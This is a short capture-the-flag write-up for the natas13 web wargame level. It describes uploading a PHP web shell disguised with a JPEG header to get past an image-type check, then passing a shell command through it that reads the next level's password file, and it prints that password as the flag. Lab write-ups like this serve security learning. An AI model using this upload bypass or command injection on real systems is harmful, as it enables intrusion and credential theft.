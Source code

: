 ```yaml
---
layout: default
title: natas13
---
```




here we inject webshell, but here we add the header of jpeg file in the begin of the content, because the php code use the func `exif_imagetype`

![alt text](./images/level13.png)

then, we go to `upload/h0854v8rab.php` which is the url
```
http://natas13.natas.labs.overthewire.org/upload/h0854v8rab.php
```

and inject our payload, in this case: `?x=cd /etc/natas_webpass/; cat natas14`

**Flag:** ***`z3UYcr4v4uBpeX8f7EZbMHlzK4UR2XtQ`*** 